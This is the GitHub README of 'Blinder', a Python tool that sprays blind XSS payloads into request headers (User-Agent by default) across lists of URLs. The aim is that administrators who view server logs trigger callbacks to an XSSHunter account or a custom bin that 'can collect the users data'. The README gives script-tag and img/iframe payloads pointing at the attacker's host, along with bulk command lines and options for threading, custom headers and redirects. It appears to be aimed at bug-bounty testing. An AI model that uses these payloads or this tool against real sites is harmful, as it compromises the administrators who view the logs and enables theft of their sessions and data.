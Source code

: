 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Been Able To Select Your Own Header On The Requests That Will Be Sent.
- Selecting Your Own Replace String That Will Be Replaced To Your XSSHunter/Bin
- Cleaner Code!

## How To Use:
#### Basic:
- You Can Run Blinder In a Basic Usage By Just Using This Command. Where `-u` Options Is Your XSSHunter Username And `-f` Is The File That Contains The URLs With NewLine Seprator
```
python3 Blinder.py -u hacker -f URLs
```

#### Redirections
- To Disallow/Allow Redirections You Can Use `-r` Options With The Rule You Want. Disallowing Redirections Will Make The Tool Faster But It Might Miss Some Results. By Default Redirections Is Allowed On Blinder

- The Redirection Rules Are `allow` and `deny` In LowerCase. The Program Will Trigger An Error In Case You Used Something Else.
```
python3 Blinder.py -u hacker -f URLs -file -r deny
```
#### Payloads And Multi Payloads.
- In Blinder The Default Payload Is `"><script src=XSSHunter></script>`That's The Same as The Default One On XSShunter Website. In Case You Want To Use Another Payloads For XSS Or Something Else Like SSTI , CSTI You Can Add It Using `-p` Option That Can Be Used With Some Command Like The First Example

- In Case You Want To Use Multi Payloads You Can Add Your Payloads Then Seprate Them Using `,` For Default Usage, See The Second Example For That, In Case You Want To Seprate Them By Something Else You Can Use `-s` Option. And You Will Find It In The Third Example. 

- You Can Select What Text You Want To Get Replaced To Your XSSHunter/Bin Using `--replace` Option. You Will Get a Sample In The Forth Example. Also, In Case You Didn't Add The Replace String The Program Will Use `XXX` For Default.
```
python3 Blinder.py -u hacker -f URLs -p '"><img src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

```
python3 Blinder.py -u hacker -f URLs -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

#### Headers
- In This New Update You Can Select What Headers You Want To Use To Send The Payloads On. The Default Is The `User-Agent` Header But You Can Add Your Own Header Using `--header` Option. See The Example Below

```
python3 Blinder.py -u hacker -f URLs --header test
```

#### External Bin
- In Case You Don't Want To Use XSSHunter And You Have Your Own Requeest Bin That Can Collect The Users Data You Can Use `-b` Option With Your External Bin Including The Protocol `http:` `https:`

```
python3 Blinder.py -b https://site.com/ -f URLs
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
- You Can Also DM Me On Twitter: [@DemoniaSlash](https://twitter.com/DemoniaSlash) 
